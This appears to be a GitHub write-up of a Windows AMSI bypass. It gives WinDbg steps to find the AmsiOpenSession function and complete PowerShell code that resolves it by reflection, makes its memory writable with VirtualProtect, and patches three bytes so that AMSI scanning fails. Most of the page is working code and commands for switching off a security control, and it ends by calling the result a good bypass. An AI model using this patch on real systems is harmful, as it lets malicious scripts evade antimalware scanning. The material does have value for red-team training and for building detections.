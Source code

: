 dump the content of AmsiOpenSession using WinDbg
![image](https://github.com/user-attachments/assets/402e6ca9-a7fc-49a3-9fe5-14710ad31f89)


u amsi !AmsiOpenSession L1A
![image](https://github.com/user-attachments/assets/851c26b3-7f12-4395-90a8-861048bf4352)

Replace the TEST RDX,RDX instruction with an XOR RAX,RAX instruction to redirect the execution flow to the error branch, effectively disabling AMSI.
We can disable AMSI by overwriting only three bytes of memory inside the AmsiOpenSession API. 

locate AmsiOpenSession
![image](https://github.com/user-attachments/assets/b6382fd5-e7ed-42a1-aab2-365693c6d4b6)

```
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$funcAddr
```
 attach powershell ise process
 ![image](https://github.com/user-attachments/assets/cfd550b3-6f94-477b-8dce-b008c6587887)

translate to hexidecimal using ? 0n(LOCATEAMSIOPENSESSION)

![image](https://github.com/user-attachments/assets/611184fc-a284-4d0d-9547-820778762976)

Unassemble to check if it correct
u 00007ffe`749f3560
![image](https://github.com/user-attachments/assets/3e422be4-fcaf-48e0-b4bd-7d2dfff94edb)

Now look at memory protection
!vprot 7ffe749f3560
![image](https://github.com/user-attachments/assets/1ca243ec-4298-4aa7-995b-b69747d5ea91)

Change memory protection to mess with our 3 byte
continue execution with 'g'
![image](https://github.com/user-attachments/assets/cc1dcb9d-4375-4792-a65b-4be035f1c46b)


Should return true
```
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
```

Break 
![image](https://github.com/user-attachments/assets/3416aa1d-f1d7-4094-801f-5051d16f2e3e)

Run again
!vprot 7ffe749f3560
Changed
![image](https://github.com/user-attachments/assets/6ea62b81-fc48-472c-86bb-3a3165c46674)

Now we can overwrite those 3 bytes
This should disable AMSI as soon as it is used


$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
![image](https://github.com/user-attachments/assets/249feac9-80e5-43e9-b26d-b57d77e0314e)

To restore memory protection
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
![image](https://github.com/user-attachments/assets/ff1c9fc4-a308-4973-ba14-21e6c800c8ff)

Verify with windebug
Break
u 7ffe749f3560
!vprot 7ffe749f3560
![image](https://github.com/user-attachments/assets/bc381cad-303a-4b1b-a3db-d81238d931da)
![image](https://github.com/user-attachments/assets/2fa02082-4ce3-470e-b7ad-6185c177ddbf)

begin debug
good execution bypass for now
![image](https://github.com/user-attachments/assets/738fe09d-a32e-46de-b783-368fe8cefff9)


